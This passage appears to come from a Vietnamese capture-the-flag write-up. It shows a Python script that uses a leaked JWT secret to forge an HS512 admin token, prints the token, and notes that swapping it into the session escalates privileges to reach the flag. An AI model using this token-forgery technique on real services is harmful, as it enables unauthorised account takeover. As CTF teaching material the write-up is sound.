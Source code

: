 ![1720986424398](image/writeup/1720986424398.png)
- Tuy nhiên ta cần phải decode nó ra thì mới xài được
```
import jwt

data = {"subject_id": 1, "exp": 1920187883}
JWT_SECRET = "3gHsCBkpZLi99zyiPqfY/NfFJqZzmNL4BAhYN8rAjRn49baTcnmyGISLD6T58XcWIUYrBfltI2iq2N6OHQSrfqBRFxFta61PvmnfRyn8Ep8T55lvLT8Es62kN3x35Bcb0OZmOGmM/zKf2qadcBq3Nbq1MiIVKJMz4w3JOk4orwFPtSNpNh8uaSQQUNMKTT6cvD9bvRvFNeeHYSPhDFwayPIRr5TJ+BpIRTUTfc1C3WCKoOuXCz2t+ISZo5yYwZ6U5w7NKFTTuDqMP/dXevkVykuntdej55XE3fsCP+UVFUT2JrY+Z9Q1aKTgavQR5smYVn93RlpbFwCoSStoANnoi"

encoded = jwt.encode(data, JWT_SECRET, algorithm="HS512")
print(encoded)
```
```
└─$ python3 script.py 
eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJzdWJqZWN0X2lkIjoxLCJleHAiOjE5MjAxODc4ODN9.6_Al8k0dDcd86Mza6fuhaTfu08RHZQ4QtDspXJCpnYYI_9cWWGIGUMnXD7zqQBTQaV1F8WxAYZhx5KG16yCVhA
```
- Thay thế Token ở trên với Token đã đăng nhập ở web vừa rồi thì ta đã có thể leo quyền và truy cập được flag.